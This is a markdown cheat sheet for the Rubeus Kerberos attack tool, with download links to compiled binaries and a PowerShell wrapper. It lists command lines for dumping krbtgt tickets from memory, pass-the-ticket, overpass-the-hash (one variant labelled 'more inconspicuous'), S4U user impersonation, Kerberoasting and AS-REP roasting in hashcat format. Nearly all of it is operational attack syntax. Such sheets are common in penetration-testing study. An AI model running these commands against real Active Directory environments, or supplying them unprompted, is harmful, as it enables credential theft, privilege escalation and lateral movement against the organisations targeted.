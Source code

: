 ### Sources or compile directly from github
https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.0_Any/Rubeus.exe
https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Rubeus.ps1  
https://github.com/GhostPack/Rubeus

## Note: Always use the fully qualified domain name to execute commands after getting a ticket

### List kerberos tickets applied to current logon session
```
Rubeus.exe triage
```

### Dump tickets inside memory
```
Invoke-Rubeus -Command 'dump /service:krbtgt'
```

### Pass ticket to current session (/ticket can also be pathToKirbiFile)
```
Invoke-Rubeus -Command 'ptt /ticket:<base64>'
```

### Purge all kerberos tickets
```
Invoke-Rubeus -Command 'purge'
```

### Get TGT for specific user (Overpass-the-Hash), /nowrap print with no line breaks, use /ptt to import to session
```
Invoke-Rubeus -Command 'asktgt /user:<user> /domain:<domain> /rc4:<ntHash> /nowrap'
```

### Get TGT using - the more inconspicuous way
```
Invoke-Rubeus -Command 'hash /user:<user> /domain:<domain> /password:<password>'
Invoke-Rubeus -Command 'asktgt /user:<user> /domain:<domain> /aes256:<aes> /dc:<domainController> /ptt'
```

### Impersonate user (use cifs as alternative service for http) (further request will need to use the fqdn)
```
Invoke-Rubeus -Command 's4u /impersonateuser:<targetUser> /msdsspn:http/<fqdnRhost> /ticket:<base64> /altservice:cifs'
```

### Create new process (show pop up cmd shell)
```
Invoke-Rubeus -Command 'createnetonly /program:C:\Windows\System32\cmd.exe /show'
```

### Pass a ticket to the process
```
Invoke-Rubeus -Command 'ptt /luid:<luid> /ticket:<base64>'
```

### Kerberoasting
```
Invoke-Rubeus -Command 'kerberoast /outfile:<file>.txt'
```

### Asrep roasting
```
Invoke-Rubeus -Command 'asreproast /outfile:<file>.txt '
```

### As-rep roasting for specific user and hashcat format
```
Invoke-Rubeus -Command 'asreproast /outfile:<file>.txt /format:hashcat /user:<user>'
```

